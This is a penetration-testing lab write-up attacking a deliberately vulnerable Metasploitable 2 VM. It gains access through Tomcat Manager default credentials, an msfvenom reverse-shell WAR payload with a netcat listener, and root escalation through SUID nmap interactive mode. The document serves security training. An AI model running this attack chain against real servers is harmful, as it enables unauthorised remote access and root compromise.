








# Metasploitable Lab 7 — Tomcat Manager Exploitation, WAR Deployment, and Privilege Escalation via SUID Misconfiguration

## Objective

The objective of this lab was to identify and exploit an exposed Apache Tomcat Manager interface using default credentials, deploy a malicious WAR file to achieve remote code execution, and escalate privileges to root through a misconfigured SUID binary.

This lab demonstrates a realistic attack chain combining web application abuse, credential misuse, and local privilege escalation.

---

## Lab Environment

| Component | Description |
|-----------|-------------|
| Host Machine | MacBook Pro (Intel, 16GB RAM) |
| Virtualization | VirtualBox |
| Attacker Machine | Kali Linux |
| Target Machine | Metasploitable 2 |
| Network | VirtualBox Host-only Network |
| Network Range | 192.168.56.0/24 |

### Lab Network Topology

Internet

|

Kali Linux (eth0 - NAT)

|

Kali Linux (eth1 - Host-only)

|

192.168.56.0/24 Lab Network

|

Metasploitable 2

---

## Tools Used

| Tool | Purpose |
|------|--------|
| Nmap | Service enumeration |
| Browser | Web application interaction |
| msfvenom | Payload generation |
| Netcat | Reverse shell listener |
| Linux commands | Local enumeration and privilege escalation |

---

# Step 1 — Service Enumeration

## Initial Targeted Scan

nmap -sV -p 8080 192.168.56.3  

---

## Result

Port 8080 was found to be closed.

---

## Full Scan

nmap -sV 192.168.56.3  

---

## Result

8180/tcp open http Apache Tomcat/Coyote JSP engine 1.1  

---

## Analysis

- Tomcat was running on a non-standard port (8180)  
- Demonstrates the importance of full enumeration rather than assuming default ports  
- Identified a high-value web application target  

---

# Step 2 — Web Application Discovery

## Accessing the Service

http://192.168.56.3:8180  

---

## Result

- Apache Tomcat default page displayed  
- Multiple application paths visible:

/manager  
/admin  
/host-manager  
/webdav  
/jsp-examples  
/servlets-examples  

---

## Analysis

- Presence of `/manager` indicates an administrative interface  
- High-value target due to application deployment capabilities  

---

# Step 3 — Credential Attack

## Attempted Credentials

tomcat:tomcat  

---

## Result

Authentication successful  

---

## Analysis

- Default credentials were enabled  
- Provided administrative access to Tomcat Manager  
- Demonstrates common real-world misconfiguration  

---

# Step 4 — WAR Payload Generation

## Command Used

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.2 LPORT=4444 -f war -o shell.war

---

## Result

- Malicious WAR file successfully generated  
- Payload designed to establish reverse shell  

---

## Analysis

- WAR files are deployable Java web applications  
- Allows execution of attacker-controlled code within Tomcat  

---

# Step 5 — Listener Setup

## Command Used

nc -lvnp 4444  

---

## Result

- Listener successfully started  
- Awaiting reverse connection  

---

# Step 6 — WAR Deployment

## Action

- Uploaded `shell.war` via Tomcat Manager  
- Application deployed successfully  

---

## Trigger

http://192.168.56.3:8180/shell  

---

## Result

- Reverse shell connection received  

---

## Analysis

- Successful remote code execution achieved  
- Exploited legitimate functionality rather than a vulnerability  

---

# Step 7 — Shell Stabilisation

## Initial Commands

whoami  
id  

---

## Output

whoami → tomcat55  
id → uid=110(tomcat55)  

---

## Stabilisation Command

python -c 'import pty; pty.spawn("/bin/bash")'  

---

## Result

- Fully interactive shell obtained  

---

## Analysis

- Initial shell was limited  
- Stabilisation enabled proper command execution and enumeration  

---

# Step 8 — Local Enumeration

## Commands Used

uname -a  
find / -perm -4000 -type f 2>/dev/null  

---

## Results

- Outdated Linux kernel (2.6.24)  
- SUID binary discovered:

/usr/bin/nmap  

---

## Analysis

- SUID binaries are high-value escalation targets  
- Nmap stood out as potentially exploitable  

---

# Step 9 — Privilege Escalation

## Command Used

nmap --interactive  

---

## Shell Escape

!sh

---

## Verification

whoami  
id  

---

## Output

whoami → root  
id → euid=0(root)  

---

## Analysis

- Nmap interactive mode allowed command execution  
- SUID misconfiguration resulted in root privileges  
- Demonstrates abuse of legitimate functionality  

---

# Security Concepts Learned

This lab demonstrated several critical concepts:

- **Web Application Enumeration** — Identifying administrative interfaces  
- **Default Credential Abuse** — Exploiting weak authentication  
- **Authenticated Remote Code Execution** — Leveraging trusted functionality  
- **WAR File Deployment** — Executing attacker-controlled applications  
- **Reverse Shells** — Establishing remote access  
- **Shell Stabilisation** — Improving post-exploitation capability  
- **Local Enumeration** — Identifying escalation vectors  
- **SUID Misconfiguration** — Dangerous permission settings  
- **Effective UID (euid)** — Determining actual privilege level  
- **Privilege Escalation** — Transition from service account to root  

---

# Lessons Learned

- Administrative interfaces are high-value targets  
- Default credentials can lead to full system compromise  
- Non-standard ports should always be enumerated  
- WAR deployment enables code execution without exploits  
- Shell stabilisation is essential for effective enumeration  
- Misconfigured SUID binaries can provide direct root access  
- Effective UID determines real privilege level  
- Real-world attacks often chain simple weaknesses  

---

# Final Outcome

- Apache Tomcat service identified  
- Administrative interface discovered  
- Default credentials successfully exploited  
- Malicious WAR file deployed  
- Reverse shell obtained  
- Shell stabilised  
- SUID misconfiguration identified  
- Privilege escalation achieved  
- Root access obtained  